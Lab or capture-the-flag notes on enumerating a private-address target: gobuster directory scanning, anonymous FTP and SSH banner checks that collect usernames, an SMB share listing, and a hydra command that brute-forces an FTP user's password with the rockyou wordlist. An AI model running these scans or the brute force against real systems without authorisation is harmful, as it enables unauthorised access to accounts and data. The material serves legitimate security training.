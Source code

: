 Dir enum:
```bash
gobuster dir -k -u https://192.168.185.148:12380 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -o gobuster_p12380_dir_raft_s.txt -f
```

```
/phpmyadmin/          (Status: 200) [Size: 10339]
/announcements/       (Status: 200) [Size: 961]
```

/announcements/message.txt
```
Abby, we need to link the folder somewhere! Hidden at the mo
```
=> Username: Abby

```bash
ftp 192.168.185.148

# Banner:
# Harry, make sure to update the banner when you get a chance to show who has access here
```
=> Username: Harry
=> ftp `anonymous` with empty password is allowed
=> File `note`:
```
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
```
=> Usernames: Elly, John

```bash
ssh 192.168.185.148
# Banner:
# Barry, don't forget to put a message here
```
=> Username: Barry

Brute force elly FTP password:
```bash
hydra -I -l elly -P /usr/share/wordlists/rockyou.txt 192.168.185.148 ftp
```

SMB enum
```bash
smbclient -N -L \\\\192.168.185.148\\

# Sharename       Type      Comment
# ---------       ----      -------
# print$          Disk      Printer Drivers
# kathy           Disk      Fred, What are we doing here?
# tmp             Disk      All temporary files should be stored here
# IPC$            IPC       IPC Service (red server (Samba, Ubuntu))

# Workgroup            Master
# ---------            -------
# WORKGROUP            RED
```
=> Usernames: kathy, Fred
